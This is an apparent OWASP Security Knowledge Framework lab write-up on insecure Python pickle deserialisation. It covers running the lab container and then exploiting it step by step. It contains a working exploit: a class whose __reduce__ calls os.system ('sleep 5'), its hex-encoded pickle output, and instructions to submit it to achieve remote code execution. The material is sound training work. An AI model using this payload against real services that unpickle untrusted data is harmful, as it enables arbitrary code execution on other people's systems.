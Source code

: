 # KBID 271 - Deserialisation Pickle-1

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](../../.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.

![](../../.gitbook/assets/DESPickle1_1.png)

The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.

## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.

![](../../.gitbook/assets/DESPickle1_2.png)

### Step 2

Open the challenge folder, _DES-Pickle_, and open the _exploit.py_ file in a text editor.

```python
import pickle
import os
import base64
import binascii


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

This code creates a Pickle serialized object of _os.system_ call passing _sleep 5_ as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'
```

_Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used._

### Step 3

Copy the output of previous step, paste it on the text field and click on _Submit Button_.

![](../../.gitbook/assets/DESPickle1_3.png)

Check the Network tab and note the _sync_ request takes approximately 5 seconds to respond. It proves that the _sleep 5_ command was executed successfully and the Remote Code Execution was achieved.

![](../../.gitbook/assets/DESPickle1_4.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
